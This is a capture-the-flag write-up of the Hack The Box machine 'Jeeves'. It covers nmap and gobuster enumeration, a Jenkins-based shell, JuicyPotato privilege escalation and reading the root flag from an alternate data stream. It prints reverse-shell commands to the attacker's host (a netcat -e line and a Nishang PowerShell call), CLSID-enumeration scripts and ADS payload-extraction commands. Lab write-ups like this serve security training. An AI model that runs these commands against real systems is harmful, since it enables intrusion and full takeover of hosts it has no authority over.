




Box: Windows
Level: Medium

### Index
1. Box Info
2. Initial Nmap Enum
3. [Web Enumeration](#Web%20Enumeration)
	1. [`GoBuster Enum`](#`GoBuster%20Enum`)
4. [SMB Enum](#SMB%20Enum)
5. [Port 50000 - Jetty 9.4.z-SNAPSHOT Enum](#Port%2050000%20-%20Jetty%209.4.z-SNAPSHOT%20Enum)
	1. [`What's Jetty?`](#`What's%20Jetty?`)
	2. [`GoBuster Enum on Port 50000`](#`GoBuster%20Enum%20on%20Port%2050000`)
	3. [`Building a Project and Getting a Shell`](#`Building%20a%20Project%20and%20Getting%20a%20Shell`)
6. [Privilege Escalation](#Privilege%20Escalation)
	1. [`Checking Privileges for currente user`](#`Checking%20Privileges%20for%20currente%20user`)
	2. [`Enumerating CLSID for Juicy Potato Exploit`](#`Enumerating%20CLSID%20for%20Juicy%20Potato%20Exploit`)
	3. [`Exploiting using Juicy Potato`](#`Exploiting%20using%20Juicy%20Potato`)
	4. [`Failed Attempt using shell.ps1`](#`Failed%20Attempt%20using%20shell.ps1`)
	5. [`Successful Attempt using revshell.bat`](#`Successful%20Attempt%20using%20revshell.bat`)
7. [Alternate Data Stream (ADS)](#Alternate%20Data%20Stream%20(ADS))
	1. [`Extracting Content ADS`](#`Extracting%20Content%20ADS`)

### Box Info
```
Jeeves is not overly complicated, however it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.
```

### Initial Nmap Enum
```
# nmap -p- --min-rate=1000 -Pn jeeves.htb                       
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2
```

```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn jeeves.htb   
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-07T22:10:49
|_  start_date: 2024-09-07T21:59:31
|_clock-skew: mean: 5h00m20s, deviation: 0s, median: 5h00m20s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Web Enumeration 
`Server: Microsoft-IIS/10.0`
The error.html reveals some good info. The target has SQL Server 2005 - 9.00.4053.00 with Windows NT (Build 2195: Service Pack 4)


###### `GoBuster Enum`
Nothing Interesting So Far
```
# gobuster dir -u http://jeeves.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jeeves.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 107146 / 220561 (48.58%)^C
```
### SMB Enum
Nothing Interesting on SMB without Creds.
```
# smbclient --no-pass -L jeeves.htb  
session setup failed: NT_STATUS_ACCESS_DENIED

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Jeeves.htb]
└─# smbmap -H 10.10.11.63            
[*] Detected 0 hosts serving SMB                                                                                                  
[*] Closed 0 connections    
```

### Port 50000 - Jetty 9.4.z-SNAPSHOT Enum
So we have a snapshot present on port 50000 but upon clicking on the link, It redirects to https://www.eclipse.org/jetty

So we know that we are going to deal with **Eclipse Jetty**. Here is some detail. Notice the Jetty Version 9.4.z-Snapshot. That's the Jetty Version I think we are going to deal with.

###### `What's Jetty?`
```
Eclipse Jetty provides a highly scalable and memory-efficient web server and servlet container, supporting many protocols such as HTTP/3,2,1 and WebSocket. Furthermore, the project offers integrations with many other technologies, such as OSGi, JMX, JNDI, JAAS, etc
```

###### `GoBuster Enum on Port 50000`
```
# gobuster dir -u http://jeeves.htb:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jeeves.htb:50000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://jeeves.htb:50000/askjeeves/]
```

Accessing `/askjeeves/` leads us to following page.


On a login page (Top Right), trying default credentials and did not work.

###### `Building a Project and Getting a Shell`


Starting a NetCat Listener on Port 4444
```
# nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.63] 49676

PS C:\Users\Administrator\.jenkins\workspace\Test> whoami
jeeves\kohsuke
```
Get your User Flag

### Privilege Escalation

###### `Checking Privileges for currente user`
```
PS C:\Users\kohsuke\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

We are going to use JuicyPotato Exploit since the `SeImpersonatePrivilege` is enabled. This was one of the  box where I did not even looked at any hits and solved by myself.

###### `Enumerating CLSID for Juicy Potato Exploit`
One of the challenging factor was to find out the correct CLSID. Here is how it should be done. Although the Default BITS CLSID would work for this box.
Get the [JuicyPotato.exe from here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1). 
My [JuicyPotatoNG.exe](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1) did not work for this box when trying with default CLSID.

Now time to enumerate CLSID 
```
PS C:\ProgramData> .\JuicyPotato.exe -z -l 1337 
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
```

By entering just the `.\JuicyPotato.exe -z -l 1337`, you will see the CLSID that belongs to BITF. But In a general scenario, the BITS CLSID would not always work. So you will need to find out the correct CLSID which would spawn up a process for `NT AUTHORITY\SYSTEM`. 

You need [getclsidtest.ps1](https://github.com/tcprks/Rchitect/blob/Yoda/Scripts/getclsidtest.ps1) and get it on the target box. Than run the PowerShell script using the following command. Here's how getclsidtest.ps1 look like.
```
New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
$CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
foreach($a in $CLSID)
{
    Write-Host $a.CLSID
}
```

Running the getclsidtest.ps1 with the executionpolicy bypass. 
```
PS C:\ProgramData> powershell -executionpolicy bypass -file getclsidtest.ps1 > cls_id.txt
```

Now you will have the `cls_id.txt` file in your directory.
```
PS C:\ProgramData> type cls_id.txt
{00021401-0000-0000-C000-000000000046}
{000C101C-0000-0000-C000-000000000046}
{0010890e-8789-413c-adbc-48f5b511b3af}
{00f2b433-44e4-4d88-b2b0-2698a0a91dba}
{010911E2-F61C-479B-B08C-43E6D1299EFE}
{0289a7c5-91bf-4547-81ae-fec91a89dec5}
{02ECA72E-27DA-40E1-BDB1-4423CE649AD9}
{031EE060-67BC-460d-8847-E4A7C5E45A27}
{0358b920-0ac7-461f-98f4-58e32cd89148}
{03837511-098B-11D8-9414-505054503030}
{03837513-098B-11D8-9414-505054503030}
<<Snipped>>
```

Cool Now you will need another bat file which is[ test_clsid.bat](https://github.com/tcprks/Rchitect/blob/Yoda/Scripts/test_clsid.bat). Here's now Test_clsid.bat look like
```
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (cls_id.txt) DO (
   echo %%i !port!
   juicypotato.exe -z -l !port! -c %%i >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)
```

Now, looking at the script above make sure your change the filename in the `FOR` look from `cls_id.txt` to whatever you have used when you ran `getclsidtest.ps1`. Running the Bat file against the list of CLSID would throw the results in result.log and it will look something like this. **This BAT file didn't ran on the target for this box. I have shamelessly coped this output from the internet just for my understanding**
```
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};NT AUTHORITY\IUSR
{0fb40f0d-1021-4022-8da0-aab0588dfc8b};NT AUTHORITY\LOCAL SERVICE
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{204810b9-73b2-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{2e5e84e9-4049-4244-b728-2d24227157c7};NT AUTHORITY\LOCAL SERVICE
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700};NT AUTHORITY\SYSTEM
{4661626C-9F41-40A9-B3F5-5580E80CB347};NT AUTHORITY\SYSTEM
```

Okay now we can use any of the CLSID that belongs to `NT AUTHORITY\SYSTEM`. As I mentioned earlier that the default CLSID would work on this box.
###### `Exploiting using Juicy Potato`

Prepare your `shell.ps1` file as follows and get it on the Target along with `nc64.exe`. Than start the listener on port 4444.
```
# tail shell.ps1          
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 4444
```

###### `Failed Attempt using shell.ps1`
```
PS C:\ProgramData> .\JuicyPotato.exe -t * -l 10000 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p C:\ProgramData\shell.ps1
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 10000
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 193

[-] CreateProcessAsUser Failed to create proc: 193
```
The above failed attempted was failed using Nishang Shell.
###### `Successful Attempt using revshell.bat`

```
# more revshell.bat            
C:\\ProgramData\\nc64.exe -e cmd 10.10.14.2 4444
```

```
PS C:\ProgramData> .\JuicyPotato.exe -t * -p "C:\\ProgramData\\revshell.bat" -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

On the NetCat Listener Side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.63] 49761
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

###### Alternate Data Stream (ADS)

On getting the shell, I saw the following results upon doing `dir /r` in the desktop directory.
```
C:\Users\Administrator\Desktop>dir /r

 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,647,400,448 bytes free
```

So we know that we are going to deal with ADS. I have showed this in [Nest.HTB](https://github.com/ring-buffer/Red_Team_Notes/blob/main/Windows-HTB-Boxes/Nest%20HTB.md) using SMB. But this time it was using cmd. However, I am going to High Light some of the methods that might be useful if you get into this situation again. So PowerShell was not spawning on this box when I got the Administrator Shell. But If you get a powershell access than you can extract the ADS from the file using the following command.
```
Get-Content C:\ADS\1.txt -Stream file.exe -Raw #Change the file extension as per your target
```

###### `Extracting Content ADS`
```
expand c:\ads\file.txt:test.exe c:\temp\evil.exe
esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o
PrintBrm -r -f C:\Users\user\Desktop\data.txt:hidden.zip -d C:\Users\user\Desktop\new_folder
```

A good checklist for ADS can be found [Here](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

In our case, we were able to use `expand` command
```
C:\Users\Administrator\Desktop>expand hm.txt:root.txt flag.txt
expand hm.txt:root.txt flag.txt
Microsoft (R) File Expansion Utility  Version 10.0.10011.16384
Copyright (c) Microsoft Corporation. All rights reserved.

Copying hm.txt:root.txt to flag.txt.
hm.txt:root.txt: 34 bytes copied.

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
afbc*****************
```
Get your root flag